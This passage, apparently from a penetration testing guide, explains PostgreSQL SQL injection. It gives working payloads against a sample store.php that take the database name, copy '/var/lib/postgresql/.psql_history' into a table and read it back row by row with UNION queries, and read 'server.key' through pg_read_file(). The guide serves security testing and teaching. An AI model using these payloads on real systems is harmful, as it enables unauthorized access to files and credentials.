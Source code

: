 The built-in function `current_database()` returns the current database name.


**Example**:
```
  http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--
```

##### Reading from a file

PostgreSQL provides two ways to access a local file:
* COPY statement
* pg_read_file() internal function (starting from PostgreSQL 8.1)


**COPY:**

This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the *postgres* user.


**Example:**

```
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```


Data should be retrieved by performing a *UNION Query SQL Injection*:
* retrieves the number of rows previously added in *file_store* with *COPY* statement
* retrieves a row at a time with UNION SQL Injection


**Example:**
 ```
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

**pg_read_file():**


This function was introduced in *PostgreSQL 8.1* and allows one to read arbitrary files located inside
DBMS data directory.


**Examples:**

* `SELECT pg_read_file('server.key',0,1000); `


##### Writing to a file

By reverting the COPY statement, we can write to the local file system with the *postgres* user rights

